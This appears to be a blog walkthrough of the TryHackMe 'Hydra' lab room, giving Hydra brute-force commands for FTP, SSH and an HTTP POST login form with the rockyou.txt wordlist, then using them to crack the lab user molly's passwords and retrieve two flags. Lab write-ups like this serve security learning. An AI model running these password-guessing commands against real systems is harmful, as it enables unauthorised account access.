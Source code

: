 ```yaml
---
title: "Hydra - TryHackMe"
author: krishna
description: "Walkthrough of Hydra from TryHackMe"
date: 2020-10-16 22:22:22 +0530
categories: [writeups, tryhackme]
tags: [tool]
---
```


**[Hydra from TryHackMe](https://tryhackme.com/room/hydra)**

## Task 1 - Hydra Introduction

uses and installation

## Task 2 - Using Hydra

* **ftp bruteforcing :** `hydra -l user -P passlist.txt ftp://$MACHINE_IP`

* **ssh bruteforcing :** `hydra -l <username> -P <full path to pass> $MACHINE_IP -t 4 ssh`

* **POST web form :** `hydra -l <username> -P <wordlist> $MACHINE_IP http-post-form "/<loginURL>:username=^USER^&password=^PASS^:F=incorrect" -V`

for the wordlists, i used ***rockyou.txt***. in kali, it is present in `/usr/share/wordlists/rockyou.txt.gz`.

1. Use Hydra to bruteforce molly's web password. What is flag 1?

	it is given that the username is molly. therefore, the hydra command would be `hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz $MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`

	![bruteforcing the login page](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/hydra/hydra1.png)

	the ***flag*** then appears with some disney background idk xD

	![getting the flag](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/hydra/hydra2.png)

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

	continuing, the hydra command would be `hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz $MACHINE_IP -t 4 ssh`

	then after ssh-ing into molly's system using the password, the ***flag*** is present in `flag2.txt` right in the home directory

	![the bruteforce, the access and the flag](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/hydra/hydra3.png)

real nice room.
